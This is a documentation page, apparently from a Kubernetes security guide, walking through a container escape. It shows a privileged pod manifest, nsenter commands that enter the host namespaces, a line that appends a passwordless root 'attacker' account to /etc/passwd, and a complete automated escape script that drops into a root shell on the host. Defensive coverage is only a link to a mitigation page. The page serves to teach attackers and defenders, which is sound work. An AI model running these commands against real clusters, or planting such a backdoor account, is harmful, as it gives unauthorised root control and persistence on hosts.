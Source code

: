 ```yaml
---
sidebar_position: 8
title: "Container Escape"
description: "How an attacker can break out of a container and gain control over the host system in Kubernetes."
---
```


# Container Escape

A **container escape** occurs when an attacker breaks out of the container isolation boundary and gains access to the underlying host system. This can lead to **root-level access**, data tampering, persistence, and lateral movement across the cluster.

---

## Exploitation Steps: Breaking Out of the Container Runtime

An attacker targets a container with overly permissive configurations that allow host-level access.

### 1. Deploy a Privileged Pod

The attacker deploys a pod with elevated privileges, including:

- `privileged: true`
- `hostPID: true`
- `allowPrivilegeEscalation: true`
- `runAsUser: 0`

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  hostPID: true
  containers:
    - image: busybox
      name: test
      command: ["sleep", "infinity"]
      securityContext:
        runAsUser: 0
        allowPrivilegeEscalation: true
        privileged: true
  restartPolicy: Always
```

```bash
kubectl apply -f test-pod.yaml
```

---

### 2. Check the Container Environment

The attacker verifies if the container shares namespaces with the host.

```bash
ls -l /proc/1/ns/mnt
```

If the container can access `/proc/1/root`, it indicates potential for escape.

---

### 3. Escape into Host Namespaces

Using `nsenter`, the attacker enters the host’s namespace context:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid /bin/sh
```

They verify the escape:

```bash
hostname
whoami
```

If the commands return the **host’s hostname** and **root user**, the escape is successful.

---

### 4. Add a Root User to the Host

For persistence, the attacker creates a root-level user:

```bash
echo 'attacker:x:0:0::/root:/bin/bash' >> /etc/passwd
grep attacker /etc/passwd
```

---

### 5. Execute an Automated Escape Script

The attacker may use a script to automate the entire process:

```bash
#!/bin/sh

echo "[*] Checking if the container has access to the host's root filesystem..."
if [ ! -d "/proc/1/root" ]; then
    echo "[-] Cannot access /proc/1/root. Escape is not possible."
    exit 1
fi

echo "[+] Host root filesystem detected at /proc/1/root."
echo "[*] Attempting to enter the host's namespaces..."

exec nsenter --target 1 --mount --uts --ipc --net --pid --root=/proc/1/root /bin/sh -c '
    echo "[+] Successfully entered host namespaces."
    echo "[*] Adding attacker user to /etc/passwd..."
    echo "attacker:x:0:0::/root:/bin/bash" >> /etc/passwd
    grep attacker /etc/passwd
    echo "[*] Checking system state..."
    echo "Hostname: $(hostname)"
    echo "User: $(whoami)"
    ps aux | grep kubelet
    exec /bin/sh
'
```

---

### Result

The attacker gains **interactive root access to the host**, bypassing container isolation. They can persist by creating a new host user, modify system files, or pivot to other nodes.

---

## Mitigation

➡ [Preventing Container Escape](/docs/best_practices/cluster_setup_and_hardening/pod_security/container_escape_mitigation)

